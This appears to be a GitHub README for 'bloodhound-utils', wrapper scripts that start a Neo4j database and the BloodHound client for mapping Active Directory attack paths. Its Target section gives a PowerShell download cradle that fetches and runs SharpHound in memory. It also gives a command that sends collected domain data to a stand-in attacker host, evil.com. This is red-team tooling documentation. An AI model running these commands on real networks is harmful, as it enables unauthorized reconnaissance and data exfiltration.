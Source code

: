 # bloodhound-utils

Two wrapper scripts around getting a [BloodHound](https://github.com/BloodHoundAD/BloodHound) database and client up and running.



## Usage

### Server

```bash
$ bloodhound-server -p 'Pa$$w0rd' foo.graphdb
```

* If `foo.graphdb` does not exist a new database will be created.
* The [neo4j](https://hub.docker.com/_/neo4j/) Docker image will be launched (interactively; use CTRL-C to exit).
* The password (`-p`) parameter is optional. The default value is `BloodHound`.

### Client

```bash
$ bloodhound-client
```

* If there isn't a BloodHound release in `.`, `/opt` or `/usr/local` then it will be downloaded.
* The BloodHound client will be launched.

### Target

#### Loading

Via download cradle (See https://gist.github.com/HarmJ0y/bb48307ffa663256e239
for more):

```powershell
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1")
```

#### Executing

Use the Neo4j REST API:

```powershell
Invoke-BloodHound --URI 'https://evil.com:7473' --UserPass 'neo4j:Pa$$w0rd'
```

Create CSVs to later be uploaded:

```powershell
Invoke-BloodHound --CSVFolder 'C:\Temp'
```


## Installation

Currently Linux and OSX are supported:

```bash
git clone https://github.com/0x6c7862/bloodhound-utils
cd bloodhound-utils
for f in bloodhound-{client,server}; do sudo cp "${f}" /usr/local/bin; done
```

`bloodhound-server` depends on [`docker`](https://www.docker.com/). See website for details on installation.


## Contributing

### Bug Reports & Feature Requests

Please use the [issue tracker](https://github.com/0x6c7862/bloodhound-utils/issues) to report any bugs or file feature requests.

### Developing

Pull requests are welcome!

### License

This is free and unencumbered software released into the public domain.

Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.

In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

For more information, please refer to <http://unlicense.org/>

### BloodHound License

BloodHound uses graph theory to reveal hidden relationships and attack paths in
an Active Directory environment. Copyright (C) 2016 Andrew Robbins, Rohan
Vazarkar, Will Schroeder

This program is free software: you can redistribute it and/or modify it under
the terms of the GNU General Public License as published by the Free Software
Foundation, either version 3 of the License, or (at your option) any later
version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY
WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with
this program. If not, see http://www.gnu.org/licenses/.

